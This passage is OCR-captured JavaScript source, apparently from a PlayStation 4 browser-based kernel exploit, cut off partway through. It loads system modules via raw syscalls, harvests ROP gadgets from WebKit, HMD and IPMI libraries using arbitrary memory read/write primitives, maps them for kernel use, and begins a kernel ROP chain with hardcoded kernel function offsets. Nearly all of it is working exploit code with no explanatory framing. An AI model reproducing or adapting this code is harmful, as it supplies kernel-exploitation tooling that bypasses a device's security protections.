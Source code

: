         function load_prx(name) {
            //sys_dynlib_load_prx
            var res = chain.syscall(594, p.stringify(`/${random_path}/common/lib/${name}`), 0x0, handle, 0x0);
            if (res.low != 0x0) {
                alert("failed to load prx/get handle " + name);
            }
            //sys_dynlib_get_info_ex
            p.write8(ex_info, 0x1A8);
            res = chain.syscall(608, p.read4(handle), 0x0, ex_info);
            if (res.low != 0x0) {
                alert("failed to get module info from handle");
            }
            var tlsinit = p.read8(ex_info.add32(0x110));
            var tlssize = p.read4(ex_info.add32(0x11C));    
            if (tlssize != 0) {
                if (name == "libSceWebKit2.sprx") {
                    tlsinit.sub32inplace(OFFSET_WK2_TLS_IMAGE);
                } else {
                    alert(`${name}, tlssize is non zero. this usually indicates that this module has a tls phdr with real data. You can hardcode the imgage to base offset here if you really wish to use one of these.`);
                }
            }
            return tlsinit;
        }    
        //Obtain extra gadgets through module loading
        function extra_gadgets() {
            handle = p.malloc(0x1E8);
            var randomized_path_length_ptr = handle.add32(0x4);
            var randomized_path_ptr = handle.add32(0x14);
            ex_info = randomized_path_ptr.add32(0x40);    
            p.write8(randomized_path_length_ptr, 0x2C);
            chain.syscall(602, 0, randomized_path_ptr, randomized_path_length_ptr);
            random_path = p.readstr(randomized_path_ptr);    
            var ipmi_addr = load_prx("libSceIpmi.sprx");
            var hmd_addr = load_prx("libSceHmd.sprx");
            var wk2_addr = load_prx("libSceWebKit2.sprx");    
            for (var gadget in hmd_gadgetmap) {
                window.gadgets[gadget] = hmd_addr.add32(hmd_gadgetmap[gadget]);
            }
            for (var gadget in wk2_gadgetmap) {
                window.gadgets[gadget] = wk2_addr.add32(wk2_gadgetmap[gadget]);
            }
            for (var gadget in ipmi_gadgetmap) {
                window.gadgets[gadget] = ipmi_addr.add32(ipmi_gadgetmap[gadget]);
            }    
            for (var gadget in window.gadgets) {
                p.read8(window.gadgets[gadget]);
                //Ensure all gadgets are available to kernel.
                chain.fcall(window.syscalls[203], window.gadgets[gadget], 0x10);
            }
            chain.run();
        }    
        //Build the kernel rop chain, this is what the kernel will be executing when the fake obj pivots the stack.
        function kchain_setup() {
            const KERNEL_busy = 0x1B28DF8;    
            const KERNEL_bcopy = 0xACD;
            const KERNEL_bzero = 0x2713FD;
            const KERNEL_pagezero = 0x271441;
            const KERNEL_memcpy = 0x2714BD;
            const KERNEL_pagecopy = 0x271501;
            const KERNEL_copyin = 0x2716AD;
            const KERNEL_copyinstr = 0x271B5D;
            const KERNEL_copystr = 0x271C2D;